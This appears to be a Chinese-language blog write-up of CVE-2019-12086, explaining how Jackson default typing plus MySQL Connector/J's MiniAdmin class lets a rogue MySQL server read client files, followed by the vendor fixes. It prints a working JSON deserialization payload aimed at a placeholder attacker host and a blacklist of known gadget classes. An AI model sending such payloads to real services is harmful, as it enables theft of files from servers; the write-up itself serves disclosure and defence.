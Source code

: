 ### Security Issues with MySQL Connector/J 
MySQL的JDBC驱动有一个创建连接的配置项allowLoadLocalInfile，用来控制是否允许从本地读取文件，默认值是true，也就是允许。

不清楚具体从哪个版本开始，MySQL的JDBC驱动多了这么一个类com.mysql.cj.jdbc.admin.MiniAdmin，可能没什么人用过，它有一个特点，就是在构造方法里会创建一个到指定url的JDBC连接。

``` java
    public class MiniAdmin {
        private JdbcConnection conn;
    
        public MiniAdmin(String jdbcUrl) throws SQLException {
            this(jdbcUrl, new Properties());
        }
    
        public MiniAdmin(String jdbcUrl, Properties props) throws SQLException {
            this.conn = (JdbcConnection) (new Driver().connect(jdbcUrl, props));
        }
    
        ...
    }
```
以上两个问题，就导致只要使用恶意MySQL的url作为参数创建一个com.mysql.cj.jdbc.admin.MiniAdmin对象，就可以读取任意文件。

### CVE-2019-12086 POC
首先创建一个恶意的MySQL，可以使用https://github.com/Gifts/Rogue-MySql-Server。这个server读取客户端文件，并写入到mysql.log中。
假设启动在ip：X.X.X.X上面，那么在客户端执行如下代码，执行代码所在的机器上的c:\windows\win.ini文件内容就会出现在mysql.log中。
``` java
    ObjectMapper om = new ObjectMapper();
    om.enableDefaultTyping();

    String poc = "[\"com.mysql.cj.jdbc.admin.MiniAdmin\", \"jdbc:mysql://X.X.X.X:3306/db\"]";
    Object obj = om.readValue(poc, Object.class);
```
端口号和文件号在Rogue-MySql-Server中写死了，可以打开任意修改，就是个python的脚本。

以上是POC，在实际的生产环境中，可以通过往一些接受JSON参数的接口发送恶意的JSON数据来达成攻击的目的。

### MySQL Connector/J 的修复

MySQL Connector/J 8.0.15开始将allowLoadLocalInfile默认值设置为false。具体见[这里](https://dev.mysql.com/doc/relnotes/connector-j/8.0/en/news-8-0-15.html)

![Changes in MySQL Connector/J 8.0.15](http://zhaox.github.io/assets/images/MySQLConnectorJ8015Changes.png)

### Jason的修复
从2.9.9版本开始，将com.mysql.cj.jdbc.admin.MiniAdmin加入反序列化黑名单：
``` java
    static {
        Set<String> s = new HashSet<String>();
        // Courtesy of [https://github.com/kantega/notsoserial]:
        // (and wrt [databind#1599])
        s.add("org.apache.commons.collections.functors.InvokerTransformer");
        s.add("org.apache.commons.collections.functors.InstantiateTransformer");
        s.add("org.apache.commons.collections4.functors.InvokerTransformer");
        s.add("org.apache.commons.collections4.functors.InstantiateTransformer");
        s.add("org.codehaus.groovy.runtime.ConvertedClosure");
        s.add("org.codehaus.groovy.runtime.MethodClosure");
        s.add("org.springframework.beans.factory.ObjectFactory");
        s.add("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        s.add("org.apache.xalan.xsltc.trax.TemplatesImpl");
        // [databind#1680]: may or may not be problem, take no chance
        s.add("com.sun.rowset.JdbcRowSetImpl");
        // [databind#1737]; JDK provided
        s.add("java.util.logging.FileHandler");
        s.add("java.rmi.server.UnicastRemoteObject");
```